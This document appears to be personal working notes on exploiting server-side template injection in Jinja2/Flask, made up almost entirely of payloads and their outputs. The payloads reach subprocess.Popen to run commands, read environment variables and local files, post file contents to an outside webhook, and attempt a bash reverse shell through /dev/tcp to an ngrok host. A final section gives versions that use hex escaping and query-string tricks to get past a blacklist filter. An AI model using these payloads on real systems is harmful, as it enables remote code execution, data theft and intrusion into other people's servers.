


<h1>Without blacklist:</h1>

1) return the index of urllib in subclasses()
```
{{__self__.__init__}}

<bound method Undefined.__init__ of Undefined>

{{__self__.__init__.__class__}} or {{().__class__}}
<class 'method'>

{{__self__.__init__.__class__.__base__}}
<class 'object'>

{{ __self__.__init__.__class__.__base__.__base__}}
None

{{__self__.__init__.__class__.__base__.__subclasses__}}
<built-in method __subclasses__ of type object at 0x00007FF8B2656750>

Final payload:
{{__self__.__init__.__class__.__base__.__subclasses__()}} 
```

Output:



11 instances of class urllib.
Index of <class 'urllib.request.Request'> : {{__self__.__init__.__class__.__base__.__subclasses__()[338]}} 

Could not figure out how to do this using the index() method.


2) get name of current python flask script

```
{{config.__class__.__init__.__globals__}}
```

```
{{config.__class__.__init__.__globals__.__builtins__}}
```

```
{config.__class__.__init__.__globals__.__builtins__.__import__}}
<built-in function __import__>

{{config.__class__.__init__.__globals__.__builtins__.__import__('__main__').__file__}}

```
Output:
c:\Users\risha\Rishabh extras\Programming\ssti.py


3) get all the current envvars
```
{{request.application.__globals__.__builtins__.__import__('os').environ}}
```


4) read a local file
{{get_flashed_messages.__globals__.__builtins__.open("test.py").read() }}

```
{{get_flashed_messages}}
<function get_flashed_messages at 0x000002C3647D1440>

{{get_flashed_messages.__globals__}}
```


5) run a command

```

{{ (""|attr("1")|attr("__class__"))}}
<class 'jinja2.runtime.Undefined'>


{{(""|attr("1")|attr("__class__")|attr("__base__")|attr("__subclasses__")())[258]}}
<class 'subprocess.Popen'>

{{((""|attr("1")|attr("__class__")|attr("base"))|attr("__subclasses__")()[258]('whoami', shell=True, stdout=-1)|attr("communicate"))}}

(b'test1\n', None)

```


6) send the contents of etc pass to  awebhook

{{request['__class__']['__init__']['__globals__']['__builtins__']['__import__']('requests')['post']['__call__']('https://a.requestcatcher.com',data={'file':request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/cracklib/cracklib.conf").read()})}}





7) rev shell
```
().__class__.__base__.__subclasses__()[258]('bash -c ‘exec bash -i &>/dev/tcp/<ngrok_IP>/<ngrok_port> <&1’', shell=True, stdout=-1).communicate()
Tried this ().__class__.__base__.__subclasses__()[259]('curl a.requestcatcher.com', shell=True, stdout=-1).communicate() and it works.
 Just have to figure out how to get it to connect to ngrok
```

<h1>Blacklist applied:</h1>

1)
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
{{request|attr(request.query_string[2:12].decode())|attr(request.query_string[15:23].decode())?c=__class__&d=__base__}}

Without ' or " constructing payloads is very difficult. It leaves very few options as far as I understand like the example one.
2){{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}

6){{request['x5f\x5fclass\x5f\x5f']['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fim'+'port\x5f\x5f']('requests')['post']['\x5f\x5fcall\x5f\x5f']('https://a.requestcatcher.com',data={'file':request.\x5f\x5fclass\x5f\x5f.\x5f\x5finit\x5f\x5f.\x5f\x5fglobals\x5f\x5f.\x5f\x5fbuiltins\x5f\x5f.open.\x5f\x5fcall\x5f\x5f("/etc/cracklib/cracklib.conf").read()})}}

